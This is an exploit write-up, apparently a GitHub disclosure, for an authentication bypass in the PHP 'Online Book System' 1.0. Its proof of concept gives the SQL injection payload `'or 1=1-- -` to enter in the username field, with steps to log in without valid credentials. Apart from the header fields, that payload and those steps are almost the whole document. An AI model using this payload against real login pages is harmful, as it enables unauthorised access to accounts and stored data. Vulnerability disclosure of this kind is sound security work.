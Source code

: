 # Online Book System - Authentication Bypass
+ **Exploit Title:** Online Book System - Authentication Bypass
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/online-book-system-in-php-css-js-and-mysql-free-download/
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Book System allows Authentication Bypass via the `username` and `Password` parameters at "localhost/BookStore-master 1/index.php". 

## Proof of Concept:
+ Go to this address: "localhost/BookStore-master 1/index.php"
+ username : `'or 1=1-- -` Password : `1`  and log in
+ Authentication Bypass Successful !

![book system auth bypass with sqli](https://github.com/BurakSevben/CVEs/assets/117217689/8302f544-7502-4dac-9d3e-f958cbc27a66)

![book system auth bpyass 2](https://github.com/BurakSevben/CVEs/assets/117217689/97c2a66b-6548-4d7c-b8c3-e5dfc6a49129)

